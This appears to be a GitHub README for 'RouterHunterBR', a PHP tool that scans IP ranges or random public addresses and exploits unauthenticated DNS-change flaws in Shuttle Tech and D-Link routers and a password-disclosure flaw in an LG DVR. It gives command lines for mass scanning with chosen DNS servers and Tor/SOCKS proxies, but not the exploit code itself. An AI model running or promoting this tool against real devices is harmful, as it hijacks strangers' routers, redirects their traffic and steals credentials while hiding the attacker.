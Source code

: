 # RouterHunterBR
TOOL - Unauthenticated Remote DNS , Scanner ranger IP.

* Description:*
  The script explores two vulnerabilities in routers
  01 - Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit
  reference: http://www.exploit-db.com/exploits/35995/

  02 - D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit
  reference: http://www.exploit-db.com/exploits/35917/

  03 - LG DVR LE6016D / Unauthenticated users/passwords disclosure exploitit
  reference: http://www.exploit-db.com/exploits/36014/

  ----------------------------------------------------------

 * Execute*
  Simple search:   php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  Set IPS random:  php RouterHunterBR.php --rand --limit-ip 200 --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  Set source file: php RouterHunterBR.php --file ips.txt --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  Set proxy:       php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt --proxy 'localhost:8118'
  Proxy format:
  --proxy 'localhost:8118'
  --proxy 'socks5://googleinurl@localhost:9050'
  --proxy 'http://admin:12334@172.16.0.90:8080'
  ----------------------------------------------------------

 * Dependencies*
  sudo apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl033
